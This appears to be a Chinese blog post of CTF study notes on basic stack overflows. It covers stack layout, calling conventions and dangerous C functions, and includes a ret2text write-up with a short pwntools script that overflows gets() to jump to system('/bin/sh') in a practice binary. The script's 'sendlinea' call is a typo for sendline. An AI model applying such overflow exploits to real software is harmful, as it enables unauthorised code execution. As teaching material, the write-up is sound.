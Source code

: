 ﻿---
layout:     post
title:      栈溢出基础浅记（1）
subtitle:   
date:       2023-09-29
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

## 关键注意事项：

- 栈的结构是什么样的（rsp rbp 高->低）
- 函数调用的方式（x64 x32 参数存哪儿 返回地址在哪儿 call ret leave干了什么）
- 可能的gadget存在的方式和地址(直接shellcode,系统调用,libc)
- 危险函数
  - 输入
    - gets，直接读取一行，忽略'\x00'
    - scanf
    - vscanf
  - 输出
    - sprintf
  - 字符串
    - strcpy，字符串复制，遇到'\x00'停止
    - strcat，字符串拼接，遇到'\x00'停止
    - bcopy

## 基本ROP题解和思路：

#### [ret2text](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2text)

gets函数存在栈溢出漏洞（本篇中所有题目都是该漏洞）

![16960508178681696050817197.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16960508178681696050817197.png)

通过gdb，可以看到写入栈的位置为0xffffca5c，此时EBP位置为0xffffcac8，相隔0x6C字节

找到在函数secure中执行力system('/bin/sh')

![16960506868691696050686124.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16960506868691696050686124.png)

```python
#!/usr/bin/env python
from pwn import *

# .text:0804863A system('/bin/sh')

sh = process('./ret2text')
system = 0x0804863A

# gdb.attach(sh)
payload = flat(['A'*0x6c,0xdeadbeef,system])
sh.sendlinea(payload)
sh.interactive()
```

